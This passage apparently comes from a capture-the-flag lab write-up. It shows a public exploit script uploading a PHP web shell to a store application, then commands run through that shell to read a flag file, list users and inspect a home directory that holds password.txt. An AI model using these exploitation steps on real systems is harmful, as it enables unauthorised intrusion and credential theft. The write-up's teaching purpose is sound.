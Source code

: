 ### Obtaining shell through RCE

We can run the exploit using the following command:

```
$ python 47887.py http://192.168.186.111/store/
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://192.168.186.111/store/bootstrap/img/lx1opTmceh.php
> Example command usage: http://192.168.186.111/store/bootstrap/img/lx1opTmceh.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y
RCE $ 
```

&nbsp;

## Post Exploitation

### local.txt

```
RCE $ find / "local.txt" 2>/dev/null | grep "local.txt"
/usr/share/doc/cloud-init/examples/upstart-rclocal.txt
/var/www/local.txt
```

```
RCE $ cat /var/www/local.txt
492ecde3acd7b1eea3d5ed4ca72b2805
```

### User enumeration

```
RCE $ ls /home
tony
```

There is a user `tony` on the target machine.

| Username |
| -------- |
| tony     |

Let's check if there is anything useful in the home directory.

```
RCE $ ls -la /home/tony
total 24
drwxr-xr-x 2 tony tony 4096 Oct 30  2020 .
drwxr-xr-x 3 root root 4096 Jul 30  2020 ..
-rw------- 1 tony tony    0 Oct 30  2020 .bash_history
-rw-r--r-- 1 tony tony  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 tony tony 3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 tony tony  807 Feb 25  2020 .profile
-rw-rw-r-- 1 tony tony   70 Jul 31  2020 password.txt
```
